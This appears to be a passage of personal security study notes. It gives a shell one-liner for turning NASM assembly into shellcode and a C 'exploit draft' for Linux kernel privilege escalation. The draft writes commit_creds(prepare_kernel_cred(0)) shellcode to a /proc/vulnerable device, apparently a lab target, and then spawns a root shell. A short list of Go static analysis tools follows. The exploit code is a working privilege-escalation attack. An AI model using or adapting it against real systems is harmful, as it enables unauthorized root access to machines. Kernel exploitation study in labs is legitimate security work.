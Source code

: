 nasm to shellcode fu
```sh
nasm -f elf64 priv_esc2.s -o priv_esc2.o
for i in $(objdump -d priv_esc2.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

exploit draft:
```C
#include <stdio.h>
#include <fcntl.h>
#include <assert.h>
#include <unistd.h>
#include <string.h>

int main()
{
    int fd = open("/proc/vulnerable", O_RDWR);
    perror("open()");
    assert(fd > 0);

    unsigned char shellcode[] = "\x31\xff\x48\xc7\xc0\x60\x85\x08\x81"
                                "\xff\xd0\x48\x89\xc7\x48\xc7\xc0\x40"
                                "\x82\x08\x81\xff\xd0\xc3"; // -> commit_creds(prepare_kernel_cred(0)); shellcode 				
/*
global _start
section .text
_start:
    xor edi, edi
    mov rax, 0xffffffff81088560
    call rax

    mov rdi, rax
    mov rax, 0xffffffff81088240
    call rax

    ret
*/

    printf("[*] shellcode length: %ld\n", strlen(shellcode));
    printf("UID before: %d \n", getuid());

    int write_ret = write(fd, shellcode, strlen(shellcode));
    perror("write()");
    assert(write_ret > 0);

    printf("UID after: %d \n", getuid());
    execl("/bin/sh", "/bin/sh", 0);

    return 0;
}
```

## Static Code Analysis
### Go
- gosec
- errcheck
- staticcheck
- golangci-lint
- semgrep (+ https://github.com/dgryski/semgrep-go)
- https://github.com/github/codeql-go
- https://github.com/system-pclub/GCatch
- https://github.com/gordonklaus/ineffassign
